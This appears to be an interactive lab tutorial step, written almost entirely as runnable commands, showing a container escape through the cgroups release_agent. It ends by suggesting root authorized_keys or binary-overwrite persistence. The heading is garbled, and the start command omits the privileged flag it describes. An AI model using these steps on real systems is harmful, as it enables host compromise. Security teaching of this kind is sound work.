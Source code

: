 ## Escaping via cgroups _agent

When inside of a container running in privileged mode (as determined in steps 1-2) we can escape using the release_agent feature of cgroups.

### Start a privileged container

First, start an interactive shell inside a privileged container.  The remainder of the commands in this step will run inside the container, except for the last one.

```
docker run -it ubuntu:18.04 bash
```{{execute}}

### Mount cgroups inside the container

Next, we mount the cgroups filesystem within the container so that we can manipulate it:

```
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp
```{{execute}}

### Create a cgroup with crafted release_agent

Now we create a cgroup with a release agent that can execute on the host an arbitrary command from the container's "/cmd" file:

```
mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
```{{execute}}

### Specify the command

We could place any command inside this file.  We'll use ps as an example:

```
cat > /cmd <<EOF
#!/bin/sh
ps aux > $host_path/output 2>&1
EOF
chmod a+x /cmd
```{{execute}}

The output is sent to the container's "/output" file, so that we can see it from within the container:

```
cat /output
```{{execute}}

### Run a process in the cgroup to trigger the release_agent

The release_agent runs when all processes have exited from the cgroup.  This feature is intended to provide a hook to clean up the cgroups themselves after they are no longer used.

The following command puts the "sh" process's ID into the cgroup we've configured.  The "sh" process exits immediately after, as it has no more commands to run, which triggers the release_agent to run.

```
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```{{execute}}

Inspect the output:

```
cat /output
```{{execute}}

To see how different that output is from running "ps" inside the container, run "ps" inside the container:

```
ps aux
```{{execute}}

### Try another command...

Now try modifying the command ("ps aux") inside of "/cmd" to run something
else.  Can you overwrite a binary, install an authorized_keys entry for root,
or add a .bashrc for root?
